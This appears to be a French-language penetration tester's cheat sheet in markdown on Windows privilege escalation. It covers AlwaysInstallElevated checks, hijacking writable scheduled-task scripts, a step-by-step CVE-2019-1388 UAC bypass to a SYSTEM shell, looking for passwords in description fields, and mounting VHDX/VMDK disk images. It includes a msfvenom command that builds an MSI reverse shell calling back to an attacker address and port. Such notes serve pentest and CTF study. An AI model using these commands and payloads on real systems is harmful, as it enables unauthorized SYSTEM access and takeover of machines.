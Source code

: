 

- [ ] [[#Always Install Elevated]]
- [ ] [[#Scheduled Tasks]]
- [ ] [[#CVE-2019-1388]]
- [ ] [[#User/Computer Description Field]]
- [ ] [[#Mount VHDX/VMDK]]



# Always Install Elevated

> [!TIP]
> Installe les .msi en tant que SYSTEM
> Les 2 clés de registre suivantes doivent être présentes:
> - HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
> - HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

1. Vérifier que les 2 clés de registres sont présentes

```powershell
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```

```powershell-session
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```


2. Générer un reverse shell au format msi avec msfvenom

```shell
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi
```


ou ajouter user Admin avec PowerUp -> [[POWERUP (Services - Registre)#Always Install Elevated]]

---

# Scheduled Tasks

1. Identifier les taches planifiées

```powershell-session
Get-ScheduledTask | select TaskName,State
```

```cmd
schtasks /query /fo LIST /v
```

2. Check des permissions sur un dossier avec AccessChk (Sysinternals).

```cmd
.\accesschk64.exe /accepteula -s -d C:\Scripts\
```

3. Si scripts exécutés et modifiable, y injecter un reverse shell par exemple.



---

# CVE-2019-1388

> [!TIP]
> Premet de lancer le navigateur en tant que SYSTEM

HHUPD.exe

https://packetstorm.news/files/id/14437


1. Télécharger hhupd.exe -> https://packetstorm.news/files/id/14437
2. Clique droit exécuter en tant qu'administrateur
3. Afficher plus de détails
4. Infos sur le certificat de l'éditeur
5. Onglet Detail > Confirmer la présence de SpcSpAgencyInfo
6. Onglet General -> Cliquer sur le lien hypertext dans Issued By
7. Cliquer sur OK
8. Lancer Taskmgr
9. Dans l'onglet Details -> Identifier que le navigateur est lancé en SYSTEM
10. Aller sur le navigateur
11. CTRL + S
12. cmd dans l'UNC Path

---

# User/Computer Description Field

> [!TIP]
> Peut contenir des mots de passe.
> 

Description utilisateur

```powershell-session
Get-LocalUser
```

Description ordinateur

```powershell-session
Get-WmiObject -Class Win32_OperatingSystem | select Description
```



---

# Mount VHDX/VMDK


### Linux

Monter VMDK sous Linux

```shell
guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmdk
```

Monter VHD/VHDX sous Linux

```shell
guestmount --add WEBSRV10.vhdx  --ro /mnt/vhdx/ -m /dev/sda1
```

### Windows

Monter VHD sous windows -> Clique droit -> Monter

Monter VMDK sous windows -> Clique droit -> Map Virtual Disk


https://www.nakivo.com/blog/extract-content-vmdk-files-step-step-guide/
